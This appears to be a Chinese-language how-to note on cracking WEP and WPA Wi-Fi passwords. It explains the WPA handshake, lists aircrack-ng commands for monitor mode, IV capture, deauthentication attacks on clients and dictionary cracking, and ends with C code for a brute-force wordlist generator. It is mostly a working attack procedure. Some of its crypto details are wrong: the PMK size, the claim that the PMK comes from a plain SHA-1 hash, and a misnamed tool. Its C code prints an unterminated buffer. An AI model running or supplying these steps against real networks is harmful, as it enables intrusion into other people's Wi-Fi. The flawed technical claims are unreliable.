 wpa密码叫做PSK（pre-shared key），长度一般是8 - 63字节，它加上ssid通过SHA-1算法可以得到PMK（pairwise master key）。PMK=SHA-1（ssid，psk），PMK的长度是定长的，都是64字节。事先把PMK计算好的工具叫做airlib-ng。

认证的时候会生成一个PTK（pairwise temporary）,这是一组密钥，由参数客户端MAC地址，AP的BSSID、A-NONCE、S-NONCE、PMK，其中A-NONCE和S-NONCE 是两个随机数哈希出来。PTK加上报文数据采用一定的算法（AES或TKIP），得到密文，同时会得到一个签名叫做MIC（message intergrality check）。

四次握手包中含有--客户端MAC，AP-BSSID，A-NONCE，S-NONCE，MIC。最关键的PMK和PTK是不包含在握手包里的！
	
    PSK(pwd) + BSSID---> PMK
    client-MAC、BSSID、A-NONCE、S-NONCE、PMK ---> PTK
    PTK + data ---> MIC

所以截包可以获得的是：MAC，BSSID，A-NONCE，S-NONCE,data 。利用字典计算出MIC，然后和报文中的MIC作比较。
--------------------------------
## wep
ubuntu中安装aircrack-ng工具集:
```
    sudo aptitude install aircrack-ng
```

开启监听模式，会启动6个后台进程，启动监控模式后无线端口是mon0,以后一次累加
```
    sudo airmon-ng start wlan0	
```

不筛选显示所有的AP和他们的客户端
```
    sudo airodump-ng mon0
```

筛选相应对的报文,一定要抓取到若干万的iv对
```
    sudo airodump-ng mon0 --ivs --bssid EC:17:2F:F2:D7:B6 -w wep       #--ivs只抓取IVs,--bssid指定AP的MAC，-w指定写入的文件
```

开始破解,可以边抓，边破解
```
    aircrack-ng 捕获的ivs文件
```

wpa
前两步与wep破解一样，开启监视，抓包（不添加ivs参数）。但是要进行deauth攻击才更有机会抓到握手包
```
    aireplay-ng -0 1 –a AP的mac -c 客户端的mac wlan0
```

如果抓到握手包，airodump页面右上角会显示，WPA handshake：（mac地址）

破解
```
    aircrack-ng -w dic 捕获的cap文件  #字典文件
```
## 生成字典文件的程序
```
    #define MINLEN 8
    #define MAXLEN 20
    
    #include <stdio.h>
    #include <stdint.h>
    #include <stdlib.h>
    
    int minlen;
    char crypt[63]="1234567890aAbBcCdDeEfFgGhHiIjJkKlLmMnNoOpPqQrRsStTuUvVwWxXyYzZ";
    
    void echo(int, char *);
    
    int main(int argc,char *argv[])
    {
    	char *buf;
    	for(minlen=MINLEN;minlen<MAXLEN;minlen++){ 		/* 生成的字符长度可选 */
    		buf = malloc(minlen);
    		echo(0,buf);
    		free(buf);
    	}
    }
    
    void echo(int pos,char *buf)
    {
    	int i;
    	if(pos == minlen - 1){					/* pos ==> 0 - 7 */
    		for(i = 0;i < 62;i++)				/* 相当于最内层的for循环 */
    			printf("%s%c\n",buf,crypt[i]);
    		return;
    	}
    	for(i = 0;i < 62;i++){
    		buf[pos] = crypt[i];
    		echo(pos+1,buf);
    	}
    	return;
    }
```
